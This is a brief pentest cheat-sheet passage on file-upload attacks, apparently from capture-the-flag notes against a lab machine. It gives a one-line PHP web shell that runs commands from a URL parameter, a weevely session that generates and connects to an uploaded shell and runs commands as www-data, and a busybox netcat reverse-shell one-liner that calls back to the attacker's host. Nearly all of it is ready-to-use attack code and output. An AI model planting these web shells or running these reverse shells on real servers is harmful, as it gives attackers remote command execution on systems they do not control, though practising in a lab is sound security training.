 *File Upload* voir [payload all the things](../web)

```php
<?php system($_GET['cmd']);?>
```

- `weevely`

```bash
┌──(kali㉿kali)-[~]
└─$ weevely generate password shell.php5
Generated 'shell.php5' with password 'password' of 781 byte size.

┌──(kali㉿kali)-[~]
└─$ weevely http://10.10.97.185/uploads/shell.php5 password

[+] weevely 4.0.1

[+] Target:     www-data@rootme:/var/www/html/uploads
[+] Session:    /home/kali/.weevely/sessions/10.10.97.185/shell_0.session
[+] Shell:      System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

----

- https://www.revshells.com/

`busybox nc <ip> <port> -e sh`

----

#### Private network: ex OpenVPN

ip **tun0** (openvpn):

![](./images/revshell.png)
